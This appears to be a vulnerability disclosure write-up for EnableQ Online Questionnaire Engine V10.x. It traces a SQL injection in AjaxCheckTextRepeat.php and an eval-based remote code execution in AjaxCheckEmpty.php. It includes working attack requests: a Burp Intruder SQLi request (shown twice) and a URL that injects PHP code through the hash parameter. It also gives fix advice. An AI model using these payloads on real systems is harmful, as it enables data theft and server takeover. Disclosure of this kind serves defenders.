 ###EnableQ SQLi&RCE Vulnerability  

####General description：  

**[1]EnableQ Online Questionnaire Engine V10.X has a SQL injection vulnerability.The vulnerability stems from the AjaxCheckTextRepeat.php file failing to filter the qid parameters. Remote attackers can use the vulnerability to obtain database sensitive information**  

**[2]EnableQ Online Questionnaire Engine V10.X has a Remote Code Execution Vulnerability in the front desk. Remote unauthorized attackers can use this vulnerability to execute code and gain server control**  

_ _ _

**Environment: **
apache/php 7.0.12/EnableQ Online Questionnaire Engine V10.51,V10.54  

_ _ _

**[1]SQL Injection Vulnerability**

In the \public_html\JS\AjaxCheckTextRepeat.php file:  

![1.png](./img/1.png)
Line 56 gets the value of the variable ```hash``` via a GET request, and line 57 is split into an array assigned to ```$thisPageChecks``` by "|".  


![2.png](./img/2.png)
Line 61 traverses the ```$thisPageChecks``` array, and line 66 is split into arrays by "*" and assigned to ```$theQtnType```.  


![3.png](./img/3.png)
Line 111 enters the if statement when ```$theQtnType[0]``` is equal to 23, and line 116 splicing ```$_GET['qid']``` directly, and line 126 enters the database query, resulting in SQL injection.  

You can get the value of ```qid``` through Burp's intruder tool:  
```
GET /JS/AjaxCheckTextRepeat.php?qid=§1§%20where%201%20%23&hash=23*1*2| HTTP/1.1
Host: 127.0.0.1
Proxy-Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.94 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
DNT: 1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=0e7d8153fbdf12a52a290802ca18a570


```
The position of $1 traverses from 1 to 999,and the length that exists in the returned data is much smaller than that which does not exist.  

![4.png](./img/4.png)  
As shown in the figure, ```qid``` is 140.  

Poc in the poc directory(poc.py).  
![5.png](./img/5.png)  

Vulnerability fix recommendations: Encodes the data entered by the user or ```int($_GET['qid'])```.  

**[2]RCE Vulnerability**

In the \public_html\JS\AjaxCheckEmpty.php file:  
![6.png](./img/6.png)  
Line 3 defines the runexpcode function, in which line 7 executes the ```$code``` parameter via eval. If we can find the place to call the function and the ```$code``` parameter is controllable, then arbitrary code execution can be caused.  

![7.png](./img/7.png)  
The runexpcode function is called on line 1113 of the file, and the ```$theExpression``` parameter is passed, so let the value of $theCheckSkip on line 1112 be false.  

![8.png](./img/8.png)  
The ```$theExpressio```n parameter is derived from ```$theQtnType[2]``` on line 1107.  

To perform the above functions and assignments, you need to satisfy the following:can't enter line 49, but go to line 735.  
![9.png](./img/9.png)  
![10.png](./img/10.png)  

![11.png](./img/11.png)  
The ```$theQtnType``` is derived from the ```$theCheck``` parameter, which is split by "*" on line 41. The ```$theCheck``` parameter is again derived from ```$thisPageChecks```.  

![12.png](./img/12.png)  
As above, ```$thisPageChecks``` is obtained by the hash of the GET request and processed by "|".  

In summary, the 37th line obtains the ```hash``` parameter by GET, and then splits into an array ```$thisPageChecks``` by "|", then the 40th line traverses the array, and the 41st line divides the traversed value into an array ```$theQtnType``` by "*". Line 43 enters the conditional statement when the first value of the repartitioned array ```$theQtnType``` is "s1", and then executes the runexpcode function when ```$theQtnType[2]``` is not equal to m2, eventually resulting in remote code execution.  

You can get the value of ```qid``` through Burp's intruder tool:  
```
GET /JS/AjaxCheckTextRepeat.php?qid=§1§%20where%201%20%23&hash=23*1*2| HTTP/1.1
Host: 127.0.0.1
Proxy-Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.94 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
DNT: 1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=0e7d8153fbdf12a52a290802ca18a570


```
The position of $1 traverses from 1 to 999,and the length that exists in the returned data is much smaller than that which does not exist.  

![4.png](./img/4.png)  
As shown in the figure, ```qid``` is 140.  
Then request the following link to execute the phpinfo() function.  
```
http://yourdomain/JS/AjaxCheckEmpty.php?qid=140&hash=s1*7*555;phpinfo();exit*3*4*5*6*aGVoZQ==|
```
![13.png](./img/13.png)  

Vulnerability fix recommendations: Encode the data entered by the user or do not use the eval function.  
